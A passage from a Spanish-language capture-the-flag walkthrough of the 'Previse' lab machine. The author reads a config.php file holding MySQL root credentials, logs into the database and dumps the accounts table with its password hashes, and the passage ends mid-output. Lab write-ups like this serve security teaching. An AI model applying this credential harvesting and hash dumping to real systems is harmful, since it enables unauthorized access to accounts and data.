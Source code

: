## Initial Access

### Information Leakage

Volviendo a revisar el directorio donde nos encontramos, volvemos a encontrar el archivo `config.php` el cual contiene de las credenciales de acceso al `MySQL`.

```bash
www-data@previse:/var/www/html$ cat config.php 
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

### Database Enumeration

Nos conectaremos al `MySQL` con las credenciales encontradas y utilizaremos la base de datos `previse` que se mencionaba en el archivo de configuración.

Enumerando la base de datos, nos encontramos con una tabla llamada `accounts` la cual revisando el contenido de dicha tabla, logramos encontrar la contraseña hasheada del usuario `m4lwhere`.

```bash
www-data@previse:/var/www/html$ mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)' -D previse
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 23
Server version: 5.7.35-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> SHOW TABLES;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> SELECT * FROM accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | gzzcoo   | $1$🧂llol$OF5igbTSVf3DfojtQUj.p. | 2025-03-03 02:23:40 |
|  3 | Gzzcoo1  | $1$🧂llol$lLCHpmFzMin57aRu3E6Zu/ | 2025-03-03 02:25:27 |
```